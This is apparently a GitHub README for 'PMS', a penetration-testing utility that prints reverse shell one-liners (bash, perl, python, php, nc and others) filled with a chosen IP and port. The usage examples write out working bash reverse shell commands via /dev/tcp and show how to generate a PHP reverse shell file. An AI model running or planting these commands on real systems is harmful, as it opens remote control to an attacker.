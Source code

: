 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Install
----------------
```sh
$ git clone https://github.com/etrock/PMS.git
$ cd PMS
```
Change ```ethernet_interface``` name in ```pms.conf```. The default is ```eth1```
```
[default]

# default ethernet interface name
ethernet_interface = eth1 
```

You can add to your ~/.bashrc file
```
alias pms='python3 "<pms path>/pms.py"'
source ~/.bashrc
```
and now you can use like :
```sh
$ pms bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specify your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-h --host```: *optional*, host IP address\
```-p --port```: *optional* port number

shell types : bash, perl, python, php (shell), ruby, nc, nc-2, java, php-rev (file)


Usage
----------------
Don't forget to edit your ```pms.conf``` file
```sh
$ python3 pms.py bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
Get php reverse shell file
```sh
$ python3 pms.py php-rev > shell.php
```
